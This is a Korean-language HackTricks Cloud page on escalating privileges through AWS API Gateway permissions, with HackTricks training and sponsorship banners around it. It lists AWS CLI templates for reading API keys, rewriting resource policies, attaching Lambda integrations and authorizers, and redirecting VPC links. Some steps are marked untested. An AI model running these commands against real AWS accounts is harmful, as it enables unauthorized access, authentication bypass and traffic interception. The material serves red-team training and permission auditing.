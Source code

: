 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

이 권한을 사용하면 구성된 API의 API 키를 생성할 수 있습니다(지역별).
```bash
aws --region <region> apigateway create-api-key
```
**잠재적 영향:** 이 기술로는 권한 상승을 할 수 없지만, 민감한 정보에 접근할 수 있습니다.

### `apigateway:GET`

이 권한으로 구성된 API의 생성된 API 키를 가져올 수 있습니다(지역별).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**잠재적 영향:** 이 기술로는 권한 상승을 할 수 없지만, 민감한 정보에 접근할 수 있습니다.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

이 권한을 사용하면 API의 리소스 정책을 수정하여 자신에게 호출할 수 있는 권한을 부여하고 API 게이트웨이가 가질 수 있는 잠재적 접근을 악용할 수 있습니다(예: 취약한 람다를 호출하는 것). 

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**잠재적 영향:** 일반적으로 이 기술로 직접적으로 권한 상승을 할 수는 없지만, 민감한 정보에 접근할 수 있습니다.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
테스트 필요
{% endhint %}

`apigateway:PutIntegration`, `apigateway:CreateDeployment`, 및 `iam:PassRole` 권한을 가진 공격자는 **IAM 역할이 연결된 Lambda 함수로 기존 API Gateway REST API에 새로운 통합을 추가할 수 있습니다**. 그런 다음 공격자는 **Lambda 함수를 트리거하여 임의의 코드를 실행하고 IAM 역할과 관련된 리소스에 접근할 수 있습니다**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**잠재적 영향**: Lambda 함수의 IAM 역할과 관련된 리소스에 대한 접근.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
테스트 필요
{% endhint %}

`apigateway:UpdateAuthorizer` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 API Gateway 인증자를 수정**하여 보안 검사를 우회하거나 API 요청이 이루어질 때 임의의 코드를 실행할 수 있습니다.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**잠재적 영향**: 보안 검사를 우회하고, API 리소스에 대한 무단 접근.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
테스트 필요
{% endhint %}

`apigateway:UpdateVpcLink` 권한을 가진 공격자는 **기존 VPC 링크를 수정하여 다른 네트워크 로드 밸런서를 가리키게 할 수 있으며, 이는 개인 API 트래픽을 무단 또는 악의적인 리소스로 리디렉션할 수 있습니다**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**잠재적 영향**: 비공식 API 리소스에 대한 무단 접근, API 트래픽의 가로채기 또는 중단.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
